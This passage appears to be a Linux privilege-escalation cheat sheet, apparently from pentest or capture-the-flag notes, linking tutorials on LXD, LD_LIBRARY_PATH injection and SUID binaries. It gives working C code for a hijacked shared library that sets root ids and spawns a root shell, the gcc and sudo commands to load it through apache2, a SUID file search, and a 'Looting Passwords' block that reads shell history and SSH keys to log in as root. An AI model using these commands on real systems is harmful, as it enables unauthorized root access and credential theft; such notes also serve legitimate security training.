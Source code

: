 ## LXD Privilege Escalation

[LXD Privilege Escalation](https://www.hackingarticles.in/lxd-privilege-escalation/)

## LD\_LIBRARY\_PATH Injection

[LD\_LIBRARY\_PATH](https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/)

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

sudo LD_LIBRARY_PATH=/tmp /sbin/apache2

# OR 

sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

## SUID SGID Binaries

[SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)

```
# Find SUID Files
find / -perm -u=s -type f 2>/dev/null
```

```
# Looting Passwords
ls -la

cat .*history

cd .ssh && ls

ssh -i root_key root@<IP Addr>
```

## NFS Root Squashing
